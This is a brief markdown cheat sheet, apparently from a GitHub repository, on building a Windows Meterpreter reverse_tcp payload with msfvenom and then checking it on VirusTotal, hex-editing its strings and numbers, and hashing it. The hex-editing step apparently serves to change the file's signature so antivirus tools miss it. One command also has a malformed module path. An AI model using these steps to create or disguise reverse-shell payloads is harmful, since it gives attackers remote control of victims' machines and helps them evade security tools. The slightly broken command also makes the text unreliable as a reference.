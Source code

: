 # generate-hashes-of-payload

## msfvenom -p windows/x64meterpreter/reverse_tcp LHOST= LPORT=4444 -o payload.exe


# virus total website to check virus

#check strings of payload
```strings payload.exe```

# change value ins strings
```hexeditor payload.exe```
# Change only word string and change some numbers
```ctrl```+ ```x```and ```enter``` to save


# how to generate hashes [md5 and sha are type of calculation and algorithm to generate hashes]
```cd /tmp```
# for md5
```md5sum payload.exe```
# for sha
```sha256deep payload.exe```
